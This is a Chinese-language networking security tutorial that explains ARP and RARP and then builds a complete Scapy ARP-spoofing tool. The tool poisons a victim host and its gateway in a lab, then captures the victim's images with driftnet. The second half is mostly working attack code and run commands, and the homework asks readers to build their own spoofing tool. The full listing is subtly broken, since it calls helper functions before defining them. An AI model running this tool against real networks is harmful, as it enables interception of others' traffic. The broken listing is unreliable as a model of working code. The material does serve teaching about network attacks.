## 3.5 ARP欺骗

是时候再重新拿出七层模型的图了。


前面的socket编程工作在网络层和传输层，本节要讲解的ARP欺骗工作在数据链路层（网络接口层）。

在TCP/IP协议族中，数据链路层主要有三个目的：

1. 为IP模块发送和接收数据

2. 为ARP模块发送ARP请求和接收ARP应答

3. 为RARP模块发送RARP请求和接收RARP应答

这里需要强调一点的是，arp和rarp协议划分到数据链路层还是网络层都可以，我们将其划分在数据链路层，希望同学们不要在这个问题上争论。下面我们先来了解下ARP和RARP协议的基本内容和工作原理。

### 3.5.1 ARP协议

（参考：https://zh.wikipedia.org/wiki/%E5%9C%B0%E5%9D%80%E8%A7%A3%E6%9E%90%E5%8D%8F%E8%AE%AE）

在以太网协议中规定，同一局域网中的一台主机要和另一台主机进行直接通信，必须要知道目标主机的MAC地址。而在TCP/IP协议中，网络层和传输层只关心目标主机的IP地址。这就导致在以太网中使用IP协议时，数据链路层的以太网协议接到上层IP协议提供的数据中，只包含目的主机的IP地址。于是需要一种方法，根据目的主机的IP地址，获得其MAC地址。这就是ARP协议要做的事情。所谓地址解析（address resolution）就是主机在发送帧前将目标IP地址转换成目标MAC地址的过程。

另外，当发送主机和目的主机不在同一个局域网中时，即便知道对方的MAC地址，两者也不能直接通信，必须经过路由转发才可以。所以此时，发送主机通过ARP协议获得的将不是目的主机的真实MAC地址，而是一台可以通往局域网外的路由器的MAC地址。于是此后发送主机发往目的主机的所有帧，都将发往该路由器，通过它向外发送。这种情况称为委托ARP或ARP代理（ARP Proxy）。

#### 数据包结构

地址解析协议的消息格式很简单，仅包含单一的地址解析请求或响应。ARP 消息的长度取决于上下两层地址的大小，上层地址由所使用的网络协议类型（通常是 IPv4）决定，下层地址则由上层协议所使用的硬件或虚拟链路层的类型决定。消息的报头中包含了这些类型以及对应的地址长度信息，此外还包含了表示请求（1）和应答（2）的操作码。数据包的有效负载为收发双方的硬件地址、协议地址，总计四个地址。

为了把IP地址映射到48位以太网地址用于传输，需要一个体现地址转换协议的包格式。

完整的Arp协议如下图所示：


各字段解释如下：

```
目标以太网地址：目标MAC地址。FF:FF:FF:FF:FF:FF （二进制全1）为广播地址。
源以太网地址：发送方MAC地址。
帧类型：以太类型，ARP为0x0806。
以太网报文数据
硬件类型：如以太网（0x0001）、分组无线网。
协议类型：如网际协议(IP)（0x0800）、IPv6（0x86DD）。
硬件地址长度：每种硬件地址的字节长度，一般为6（以太网）。
协议地址长度：每种协议地址的字节长度，一般为4（IPv4）。
操作码：1为ARP请求，2为ARP应答，3为RARP请求，4为RARP应答。
源硬件地址：n个字节，n由硬件地址长度得到，一般为发送方MAC地址。
源协议地址：m个字节，m由协议地址长度得到，一般为发送方IP地址。
目标硬件地址：n个字节，n由硬件地址长度得到，一般为目标MAC地址。
目标协议地址：m个字节，m由协议地址长度得到，一般为目标IP地址。
```

#### 工作原理

在每台安装有TCP/IP协议的计算机或路由器里都有一个ARP缓存表，表里的IP地址与MAC地址是一对应的，如下表所示：



以主机A（192.168.38.10）向主机B（192.168.38.11）发送数据为例。

1. 当发送数据时，主机A会在自己的ARP缓存表中寻找是否有目标IP地址。如果找到就知道目标MAC地址为（00-BB-00-62-C2-02），直接把目标MAC地址写入帧里面发送就可。
2. 如果在ARP缓存表中没有找到相对应的IP地址，主机A就会在网络上发送一个广播（ARP request），目标MAC地址是“FF.FF.FF.FF.FF.FF”，这表示向同一网段内的所有主机发出这样的询问：“192.168.38.11的MAC地址是什么？”

3. 网络上其他主机并不响应ARP询问，只有主机B接收到这个帧时，才向主机A做出这样的回应（ARP response）：“192.168.38.11的MAC地址是00-BB-00-62-C2-02”，此回应以单播方式。这样，主机A就知道主机B的MAC地址，它就可以向主机B发送信息。同时它还更新自己的ARP高速缓存（ARP cache），下次再向主机B发送信息时，直接从ARP缓存表里查找就可。

ARP缓存表采用老化机制，在一段时间内如果表中的某一行没有使用，就会被删除，这样可减少缓存表的长度，加快查询速度。

免费ARP（gratuitous ARP），他是指主机发送ARP查询（广播）自己的IP地址，当ARP功能被开启或者是端口初始配置完成，主机向网络发送免费ARP来查询自己的IP地址确认地址唯一可用。

作用：

    确定网络中是否有其他主机使用了IP地址，如果有应答则产生错误消息。
    免费ARP可以做更新ARP缓存用，网络中的其他主机收到该广播则在缓存中更新条目，收到该广播的主机无论是否存在与IP地址相关的条目都会强制更新，如果存在旧条目则会将MAC更新为广播包中的MAC。


可以使用

```
arp -a
```
来查看本节ARP缓存表。




建议同学们使用Wire Shark 抓包（真机或者配合gns3）来学习ARP协议。为了产生ARP报文，需要清空ARP缓存。




### 3.5.2  RAPP协议

逆地址解析协议（Reverse Address Resolution Protocol，RARP），是一种网络协议，RFC903中描述了RARP。RARP使用与ARP相同的报头结构相同，作用与ARP相反。RARP用于将MAC地址转换为IP地址。其因为较限于IP地址的运用以及其他的一些缺点，因此渐为更新的BOOTP或DHCP所取代。

#### 数据包结构

类似于ARP的报文格式主要差别在于帧类型代码为0x8035（ARP为0x0806），操作码为3请求（ARP为1），4应答（ARP为2）。

#### 工作原理

1. 发送主机发送一个本地的RARP广播，在此广播包中，声明自己的MAC地址并且请求任何收到此请求的RARP服务器分配一个IP地址；
2. 本地网段上的RARP服务器收到此请求后，检查其RARP列表，查找该MAC地址对应的IP地址；
3. 如果存在，RARP服务器就给源主机发送一个响应数据包并将此IP地址提供给对方主机使用；
4. 如果不存在，RARP服务器对此不做任何的响应；
5. 源主机收到从RARP服务器的响应信息，就利用得到的IP地址进行通讯；如果一直没有收到RARP服务器的响应信息，表示初始化失败。

RARP在原理上很简单但是实现比较复杂，由于RARP的请求是在硬件层上的广播这因此这不能通过路由转发，因此在每个网络都要实现以个RARP服务器。另外在同一网络种不同主机可能会同时进行RARP请求，增大了冲突的概率。


### 3.5.3 ARP欺骗原理

ARP工作时，首先请求主机会发送出一个含有所希望到达的IP地址的以太网广播数据包，然后目标IP的所有者会以一个含有IP和MAC地址对的数据包应答请求主机。这样请求主机就能获得要到达的IP地址对应的MAC地址，同时请求主机会将这个地址对放入自己的ARP表缓存起来，以节约不必要的ARP通信。ARP缓存表采用了老化机制，在一段时间内如果表中的某一行没有使用，就会被删除。

局域网上的一台主机，如果接收到一个ARP报文，即使该报文不是该主机所发送的ARP请求的应答报文，该主机也会将ARP报文中的发送者的MAC地址和IP地址更新或加入到ARP表中。

ARP欺骗攻击就利用了这点，攻击者主动发送ARP报文，发送者的MAC地址为攻击者主机的MAC地址，发送者的IP地址为被攻击主机的IP地址。通过不断发送这些伪造的ARP报文，让局域网上所有的主机和网关ARP表，其对应的MAC地址均为攻击者的MAC地址，这样所有的网络流量都会发送给攻击者主机。由于ARP欺骗攻击导致了主机和网关的ARP表的不正确，这种情况我们也称为ARP中毒。

根据ARP欺骗者与被欺骗者之间的角色关系的不同，通常可以把ARP欺骗攻击分为如下两种：

1. 主机型ARP欺骗：欺骗者主机冒充网关设备对其他主机进行欺骗
2. 网关型ARP欺骗：欺骗者主机冒充其他主机对网关设备进行欺骗



其实很多时候，我们都是进行双向欺骗，既欺骗主机又欺骗网关。
了解了基本原理之后，我们下面动手实现ARP欺骗程序。

为了方便测试，笔者将本节以Kali Linux作为实验环境。

### 3.5.2 基本网络信息


首先，我们来查看下当前虚拟机Kali Linux的网络配置和ARP缓存。



如上图，Kali Linux 以太网卡为eth0，ip地址为192.168.1.102，MAC地址为00:0c:29:6e:98:a6。下面我们再查看Kali Linux的ARP缓存。



下面再用同样的方法查看Windows 系统的信息。



windows本身地址为192.168.1.18，同样缓存了路由器的地址。
下面我们将windows所在主机作为靶机，将Kali Linux所在虚拟机作为攻击机，进行编程测试。

### 3.5.3 构造ARP欺骗数据包

我们先完成第一个目标，告诉目标主机192.168.1.18网关的地址为Kali Linux所在主机的地址：192.168.1.102。

ARP欺骗的方式分为定向欺骗和广播欺骗两种。

#### 3.5.3.1 定向欺骗

现在来构造数据包就很容易了，回到我们最初的目标，我们想告诉192.168.1.23这台主机网关地址为192.168.1.102所在的主机，构造的数据包应该是这样的：

```
pkt = Ether(src=[1.102的MAC], dst=[1.18的Mac]) / ARP(1.102的MAC, 网关IP地址, hwdst=1.18MAC, pdst=1.18IP地址, op=2)
```
上面的代码我们不论是以太网数据包还是ARP数据包，我们都明确指定了来源和目标，在ARP数据包中，我们将Kali Linux的Mac地址和网关的IP地址进行了绑定，op取值为2，作为一个响应包被 1.18 接到，这样 1.18会更新自己的ARP缓存表，造成中毒，从而 1.18 发往网关的数据包都会被发往 1.102。

那么我们如果要欺骗网关，把网关发往1.18的数据包都发送到Kali Linux（1.102）上，根据上面的代码稍作修改即可：

```
pkt = Ether(src=[1.102的MAC], dst=[网关的Mac]) / ARP(1.102的MAC, 1. 18地址, hwdst=网关MAC, pdst=网关IP地址, op=2)
```
上面构造的两个数据包都是ARP响应包，其实发送请求包也可以进行毒化，请求包毒化的原理是，我们请求时候使用假的源IP和MAC地址，目标主机同样会更新自己的路由表。

ARP请求的方式欺骗主机，构造的ARP包如下：
```
pkt = Ether(src=[1.102的MAC], dst=[1. 18的Mac]) / ARP(1.102的MAC, 网关IP地址, hwdst=1. 18MAC, pdst=1. 18IP地址, op=1)
```
ARP请求的方式欺骗网关，构造的ARP包如下：
```
pkt = Ether(src=[1.102的MAC], dst=[网关的Mac]) / ARP(1.102的MAC, 1. 18地址, hwdst=网关MAC, pdst=网关IP地址, op=1)
```
我们看到构造ARP请求和响应的主要区别在op的值。

#### 3.5.3.2 广播欺骗

目前我们欺骗的方式都是一对一欺骗的，事实上我们可以发送广播包，对所有主机进行欺骗。

广播欺骗，首先以太网数据包直接构造一个广播包，ARP包不用填写目标主机的信息即可。

下面是ARP广播响应包的构造方式：
```
pkt = Ether(src=mac, dst='ff:ff:ff:ff:ff:ff') / ARP(hwsrc=mac, psrc=args[0], op=2)
```
最后综合定下和广播欺骗的方式，我们总结一个公式出来：
```
pkt = Ether(src=攻击机MAC, dst=被欺骗主机（或网关）MAC) / ARP((hwsrc=毒化记录中的MAC, 毒化
```
记录中的IP, hwdst=被欺骗主机MAC, pdst=被欺骗主机IP地址, op=1（或2）)

概念有点绕，实践出真知,稍后我们通过代码来加深理解。

### 3.5.4 编写自己的ARP欺骗工具

新建arp.py文件，添加如下代码，先导入我们需要的模块：
```Python
# -*- coding: UTF-8 -*-
import sys
import os
import time
from optparse import OptionParser
from scapy.all import (
    get_if_hwaddr,
    getmacbyip,
    ARP,
    Ether,
    sendp
)

def main():
    try:
        if os.geteuid() != 0:
            print("[-] 请以root权限运行本程序")
            sys.exit(1)
    except Exception as msg:
        print(msg)

    usage = 'Usage: %prog [-i interface] [-t target] host'
    parser = OptionParser(usage)
    parser.add_option('-i', dest='interface', help='请指定网卡')
    parser.add_option('-t', dest='target', help='请指定要欺骗的目标主机')
    parser.add_option('-m', dest='mode', default='req', help='毒化模式: requests (req) or replies (rep) [default: %default]')
    parser.add_option('-s', action='store_true', dest='summary', default=False, help='显示数据包发送信息')
    (options, args) = parser.parse_args()

    if len(args) != 1 or options.interface is None:
        parser.print_help()
        sys.exit(0)

if __name__ == '__main__':
    main()
```

上面的代码是arp欺骗工具的入口，我们使用optparse模块中的OptionParser类来格式化用户输入和用法提醒，该模块的使用参见 https://www.jianshu.com/p/bec089061742。我们这里给用户设置了四个配置项，分别为：

```
 -i INTERFACE  请指定网卡
  -t TARGET     请指定要欺骗的目标主机
  -m MODE       毒化模式: requests (req) or replies (rep) [default: req]
  -s            显示数据包发送信息
```

运行结果如下：



下面我们通过代码

注意这里面的几个方法，get_if_hwaddr为获取本机网络接口的函数，getmacbyip是通过ip地址获取其Mac地址的方法，ARP是构建ARP数据包的类，Ether用来构建以太网数据包，sendp方法在第二层发送数据包。

接下来我们调用get_if_hwaddr方法，根据参数中传入的网卡，获取本机MAC地址，该MAC地址在构建以太网和ARP数据包的时候做为攻击机的MAC地址被使用。继续完善代码：

```Python
......(略)
if len(args) != 1 or options.interface is None:
        parser.print_help()
        sys.exit(0)
mac = get_if_hwaddr(options.interface)#获取本机mac地址
print('本机mac地址是%s' %mac)
```


接下来对 -m 和 -s 参数做逻辑处理：

```Python
....(略)
mac = get_if_hwaddr(options.interface)
print('本机mac地址是%s' %mac)
    #处理参数
    if options.mode == 'req':
        pkt = build_req()
    elif options.mode == 'rep':
        pkt = build_rep()

    if options.summary is True:
        pkt.show()
        ans = input('\n[*] 是否继续? [Y|n]: ').lower()
        if ans == 'y' or len(ans) == 0:
            pass
        else:
            sys.exit(0)
    
    def build_req():#构造请求数据包
        pass
    
    def build_rep():#构造响应数据包
        pass
```
mode参数用户可以传入 req(构造arp请求数据包)或者 rep(构造响应数据包)。下面我们定义了build_req()和build_rep()两个方法分别构造对应的数据包。<b>注意这两个方法是main方法的子方法。</b>如果希望输出数据包信息(-s)，在输出之后要进一步确认是否继续执行arp 欺骗。

下面我们来实现build_req()方法：

```Python
def build_req():#构造请求数据包
        if options.target is None:
            pkt = Ether(src=mac, dst='ff:ff:ff:ff:ff:ff') / ARP(hwsrc=mac, psrc=args[0], pdst=args[0])
        elif options.target:
            target_mac = getmacbyip(options.target)
            if target_mac is None:
                print("[-] Error: 无法获取目标ip的mac地址")
                sys.exit(1)
            pkt = Ether(src=mac, dst=target_mac) / ARP(hwsrc=mac, psrc=args[0], hwdst=target_mac, pdst=options.target)
        return pkt
```

在上面的代码中，我们组合Ether和ARP方法来生成arp数据包。我们先解下Ether的参数：



构造一个以太网数据包通常需要指定目标和源MAC地址，如果不指定，默认发出的就是广播包，例如：



再来了解下ARP构造函数的参数列表：



构造ARP需要我们注意的有5个参数：

    op。取值为1或者2，代表ARP请求或者响应包。

    hwsrc。发送方Mac地址。

    psrc。发送方IP地址。

    hwdst。目标Mac地址。

    pdst。目标IP地址。

如果用户在终端中没有传入目的ip则构建广播包，否则为定向欺骗数据包。下面是build_rep()方法的实现：

```Python
 def build_rep():#构造响应数据包
        if options.target is None:
            pkt = Ether(src=mac, dst='ff:ff:ff:ff:ff:ff') / ARP(hwsrc=mac, psrc=args[0], op=2)
        elif options.target:
            target_mac = getmacbyip(options.target)
            if target_mac is None:
                print("[-] Error: 无法获取目标mac地址")
                sys.exit(1)

            pkt = Ether(src=mac, dst=target_mac) / ARP(hwsrc=mac, psrc=args[0], hwdst=target_mac, pdst=options.target, op=2)
        
        return pkt
```

build_rep()方法和build_req()方法基本相同，注意Ether的dst参数和ARP的op参数（op=2为arp响应包）。

```Python
while True:

        sendp(pkt, inter=2, iface=options.interface)
```

数据包构造完毕之后，就可以循环发送直到达到欺骗目的。因为构造的是以太网数据包，所以使用sendp()方法来对外发送。

目前为止，我们已经编写了一个完整的ARP欺骗工具，完整代码如下：

```Python
# -*- coding: UTF-8 -*-
import sys
import os
import time
from optparse import OptionParser
from scapy.all import (
    get_if_hwaddr,
    getmacbyip,
    ARP,
    Ether,
    sendp
)

def main():
    try:
        if os.geteuid() != 0:
            print("[-] 请以root权限运行本程序")
            sys.exit(1)
    except Exception as msg:
        print(msg)

    usage = 'Usage: %prog [-i interface] [-t target] host'
    parser = OptionParser(usage)
    parser.add_option('-i', dest='interface', help='请指定网卡')
    parser.add_option('-t', dest='target', help='请指定要欺骗的目标主机')
    parser.add_option('-m', dest='mode', default='req', help='毒化模式: requests (req) or replies (rep) [default: %default]')
    parser.add_option('-s', action='store_true', dest='summary', default=False, help='显示数据包发送信息')
    (options, args) = parser.parse_args()
    print
    if len(args) != 1 or options.interface is None:
        parser.print_help()
        sys.exit(0)
    mac = get_if_hwaddr(options.interface)
    print('本机mac地址是%s' %mac)
    
    if options.mode == 'req':
        pkt = build_req()
    elif options.mode == 'rep':
        pkt = build_rep()

    if options.summary is True:
        pkt.show()
        ans = input('\n[*] 是否继续? [Y|n]: ').lower()
        if ans == 'y' or len(ans) == 0:
            pass
        else:
            sys.exit(0)
    
    def build_req():#构造请求数据包
        if options.target is None:
            pkt = Ether(src=mac, dst='ff:ff:ff:ff:ff:ff') / ARP(hwsrc=mac, psrc=args[0], pdst=args[0])
        elif options.target:
            target_mac = getmacbyip(options.target)
            if target_mac is None:
                print("[-] Error: 无法获取目标ip的mac地址")
                sys.exit(1)
            pkt = Ether(src=mac, dst=target_mac) / ARP(hwsrc=mac, psrc=args[0], hwdst=target_mac, pdst=options.target)
        return pkt
    
    def build_rep():#构造响应数据包
        if options.target is None:
            pkt = Ether(src=mac, dst='ff:ff:ff:ff:ff:ff') / ARP(hwsrc=mac, psrc=args[0], op=2)
        elif options.target:
            target_mac = getmacbyip(options.target)
            if target_mac is None:
                print("[-] Error: 无法获取目标mac地址")
                sys.exit(1)

            pkt = Ether(src=mac, dst=target_mac) / ARP(hwsrc=mac, psrc=args[0], hwdst=target_mac, pdst=options.target, op=2)
        
        return pkt

    while True:#发送
        sendp(pkt, inter=2, iface=options.interface)

if __name__ == '__main__':
    main()
```

### 3.5.5 简单测试

在做ARP欺骗测试的时候，一定要先开启本机的IP转发功能，否则会失败的。执行如下命令：

```
sysctl net.ipv4.ip_forward=1
```

Windows系统中IP转发功能默认是关闭的。
开启方法：

1. 开始运行里面输入regedit 打开注册表编辑器(以管理员身份运行)
2. 在注册表定位下面注册表项
HKEY_LOCAL_MACHINE/SYSTEM/CurrentControlSet/ Services/Tcpip/Parameters
3. 选择下面的项目：
IPEnableRouter:REG_DWORD:0x0
4. 找到项目鼠标右键修改数值为1


下面我们打开终端，对192.168.1.18进行欺骗，告诉它网关为192.168.1.102。

```
python arp1.py -i eth0 -t 192.168.1.18 192.168.1.102
```

再打开一个终端，对网关进行欺骗，告诉网关，192.168.1.18对应的主机为192.168.1.102。
```
python arp1.py -i eth0 -t 192.168.1.1 192.168.1.18
```
一段时间之后，我们发现，192.168.1.18的arp缓存发生了变化：


对比之前的arp缓存查询结果，可以判定arp毒化成功。下面我们来看一下能发捕获到1.18的外网请求信息，使用常用的测试工具driftnet。



下面在1.18上随便打开一个带有图片的网页。
然后在监听机器上打开drifnet，我们可以看到捕获的图片信息。


### 3.5.6 小结

本节我们学习了ARP协议基本内容，通过分析协议得出ARP欺骗的原理，在此基础上实现了arp欺骗工具。本节的作业如下：
1. 基于本文内容，实现自己的arp欺骗工具
2. 思考在arp欺骗的基础上，能进一步实现哪些高级功能

下一节，我们一同学习网络嗅探的基本原理，并实现一个监听器。

           欢迎到关注微信订阅号，交流学习中的问题和心得


  

            本系列教程全部内容在玄说安全--入门圈发布，并提供答疑和辅导。

 


